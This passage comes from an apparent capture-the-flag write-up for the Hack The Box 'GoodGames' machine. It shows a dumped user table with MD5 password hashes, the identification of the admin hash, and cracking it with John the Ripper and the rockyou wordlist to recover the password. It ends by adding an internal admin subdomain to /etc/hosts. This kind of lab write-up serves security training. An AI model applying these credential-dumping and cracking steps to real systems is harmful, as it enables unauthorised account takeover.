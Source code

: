 ```bash
[2 entries]
+----+-------+---------------------+---------------------------------------------+
| id | name  | email               | password                                    |
+----+-------+---------------------+---------------------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec            |
| 2  | shiro | shiro@gmail.com     | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+----+-------+---------------------+---------------------------------------------+
...
```

We have the admin password hash! Lets identify the hash and try to brute-force it.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# hash-identifier         
...

 HASH: 2b22337f218b2d82dfc3b6f77e7cb8ec

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
...
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt -format=Raw-MD5
...
superadministrator (?)     
...
```

We found the password `superadministrator`.

At the top right of the admin’s profile page, we can find another hidden login page by clicking on the gear icon. However, to access this website, we have to add the subdomain to our `/etc/hosts` file.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# cat /etc/hosts
...
10.10.11.130	goodgames.htb internal-administration.goodgames.htb
...
```
